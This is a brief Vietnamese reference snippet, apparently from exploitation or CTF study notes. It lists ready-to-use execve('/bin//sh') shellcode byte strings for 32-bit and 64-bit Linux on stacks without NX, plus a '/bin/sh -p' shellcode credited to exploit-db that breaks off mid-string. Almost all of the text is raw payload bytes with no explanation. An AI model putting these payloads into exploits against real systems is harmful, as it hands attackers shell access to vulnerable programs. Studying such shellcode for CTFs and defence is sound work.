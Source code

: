 

Các shellcode execve("/bin//sh") trong trường hợp NX disabled:
32 bit: \x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x31\xDB\x31\xC9\x31\xD2\x89\xE3\x83\xC0\x0B\xCD\x80
64 bit: \x48\x31\xFF\x57\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\x48\x83\xC0\x3B\x0F\x05
đây là shellcode gọi execve và /bin/sh -p (lấy từ exploit-db): shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x6
